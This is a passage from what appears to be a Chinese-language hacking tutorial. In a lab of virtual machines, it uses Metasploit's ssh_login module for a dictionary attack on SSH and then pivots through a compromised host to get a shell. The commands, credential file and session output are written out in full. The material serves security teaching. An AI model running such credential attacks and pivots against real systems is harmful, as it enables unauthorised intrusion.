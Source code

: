 现在让我们将一个反向 shell 加载到 Ubuntu 虚拟机上。虽然你可以直接登录 Ubuntu 来完成此操作，但我们将通过假设你事先不知道凭证，来模拟一个真实的攻击场景。假设在攻击的 OSINT 阶段，你已经获取了一些凭证，现在可以使用这些凭证进行基于字典的攻击。我们将尝试每个凭证，并希望其中一个能够让我们登录到 SSH 服务器。在你的 Kali Linux 桌面上创建一个名为*Ubuntu_passwords.txt*的文件，里面包含 Ubuntu 机器的用户名和密码。每一对用户名和密码应该单独一行，用户名和密码之间用空格分隔。添加一些虚假的凭证，但记得也包括你 Ubuntu 机器的用户名和密码，以便可以访问该机器。以下是一个示例：

```
victim 1234
user1 trustno1
```

使用此文件在 SSH 服务器上进行基于字典的攻击。我们首先选择 Metasploit 的`ssh_login`模块。然后设置远程主机，提供密码文件，最后运行该模块：

```
msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login)>set RHOST 10.0.0.15
RHOST => 10.0.0.15
msf6 auxiliary(scanner/ssh/ssh_login)>set USERPASS_FILE /home/kali/Desktop/Ubuntu_passwords.txt
USERPASS_FILE => /home/kali/Desktop/Ubuntu_passwords.txt
msf6 auxiliary(scanner/ssh/ssh_login)>run
```

当攻击完成后，你应该可以在 Ubuntu 虚拟机上运行一个 shell。运行以下命令查看所有会话的列表：

```
msf6 auxiliary(scanner/ssh/ssh_login) > sessions -l
Active sessions

===============

  Id  Type                        Connection

  --  ----                        ----------

   1  meterpreter x86/linux       192.168.1.115:4444 -> 192.168.1.112:41206 (192.168.1.112)

   2  shell linux                 192.168.1.115-192.168.1.112:59953 -> 10.0.0.15:22 (10.0.0.15)
```

会话 2 是运行在 Ubuntu 机器上的 Linux shell。连接栏显示，从 192.168.1.115（Kali Linux）到 192.168.1.112（Metasploitable）再到 10.0.0.15（Ubuntu）之间的连接流。要在 Ubuntu 虚拟机上执行命令，运行以下命令选择会话 2。然后尝试运行像`**ls**`这样的终端命令：

```
msf6 > sessions 2

[*] Starting interaction with 2...
ls
Desktop
Documents
Downloads
```

现在，你可以从外部网络控制私有局域网中的 Ubuntu 虚拟机。

在这个示例中，我们使用了 Metasploit 的代理。接下来，我们将讨论如何编写你自己的代理。

#### *编写攻击者代理*
